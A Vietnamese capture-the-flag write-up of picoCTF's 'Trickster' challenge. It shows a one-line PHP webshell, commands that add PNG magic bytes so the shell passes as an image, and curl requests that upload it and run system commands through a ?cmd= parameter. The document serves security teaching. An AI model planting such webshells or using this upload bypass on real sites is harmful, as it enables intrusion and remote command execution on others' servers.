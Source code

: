 # 📄 Trickster (picoCTF)

## 🧠 Mục tiêu
Upload một **webshell** giả dạng file `.png`, rồi thực thi lệnh hệ thống để lấy flag.

---

## 🔍 Recon

Truy cập địa chỉ challenge:
```
http://atlas.picoctf.net:PORT/
```

Giao diện đơn giản cho phép **upload file ảnh** (`.png`).  
Nếu upload sai định dạng → báo lỗi:
```
Error: File name does not contain '.png'
```

---

## 🧪 Ý tưởng khai thác
1. Upload **PHP shell** nhưng **tên file có đuôi `.png`**
2. Bypass kiểm tra extension → server chỉ check tên file.
3. Thêm **magic bytes PNG** đầu file để qua mặt check MIME (nếu có).
4. Truy cập file shell để thực thi lệnh qua `?cmd=`

---

## 🛠️ Tạo Webshell PNG

### 1. Tạo file `shell.php`
```php
<?php system($_GET['cmd']); ?>
```

### 2. Thêm header PNG để ngụy trang

#### PowerShell (Windows)
```powershell
[System.IO.File]::WriteAllBytes("shell.php.png", @(0x89,0x50,0x4E,0x47,0x0D,0x0A,0x1A,0x0A))
Get-Content shell.php -Raw | Out-File -Append -Encoding ASCII shell.php.png
```

#### Bash (Linux)
```bash
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.php.png
cat shell.php >> shell.php.png
```

---

## 📤 Upload File

Dùng Burp Suite hoặc curl:
```bash
curl -F 'file=@shell.php.png' http://atlas.picoctf.net:PORT/
```

Khi thành công → file được lưu tại `/uploads/shell.php.png`

---

## 🧨 RCE (Command Execution)

Truy cập shell:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.php.png?cmd=whoami"
```

Test `ls`, `pwd`, `cat`:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.php.png?cmd=ls+.."
curl "http://atlas.picoctf.net:PORT/uploads/shell.php.png?cmd=cat+../MFRDAZLDMUYDG.txt"
```

---

## 🏁 Flag

Kết quả:
```
Là gì thì tự tìm đi nhen
```

---

## 📚 Tổng kết

| Bước | Nội dung |
|------|----------|
| 1️⃣ | Khảo sát upload |
| 2️⃣ | Ngụy trang file shell với PNG header |
| 3️⃣ | Upload thành công `.php.png` |
| 4️⃣ | Truy cập URL với `?cmd=` để RCE |
| 5️⃣ | Di chuyển thư mục, `cat` file để lấy flag |
